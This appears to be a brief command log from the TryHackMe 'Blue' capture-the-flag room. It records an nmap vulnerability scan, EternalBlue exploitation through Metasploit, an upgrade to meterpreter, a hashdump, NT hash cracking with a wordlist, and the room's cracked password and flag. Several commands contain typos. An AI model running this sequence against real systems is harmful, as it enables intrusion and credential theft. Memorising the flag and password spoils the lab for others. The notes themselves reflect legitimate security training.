 # Try-hack-me.blue
nmap -sV -sC --script vuln -oN blue.nmap 10.10.136.237
msfconsole
search ms17
search eternal
use 3
show options
set rhosts 10.10.136.237
^z
y
sessions
use post/multi/manage/shell_to_meterpreter
show options
sesions -i 1
getiud
ps
migrate 1296
hashdump
mkdir jon
cd jon
touch jon.hash
cat jon.hash
jon jon.hash --format=NT --wordlist=/opt/rockyou.txt
jon jon.hash --format=NT --show
pass: algfna22
pwd
cd ..
cd ..
pwd
ls
cd windows
cd system32
cd config
ls
cd ..
cd ..
cd ..
ls
cd users
cd jon
ls
cd documents
cat flag3.txt
flag{admin_documents_can_be_valuable}
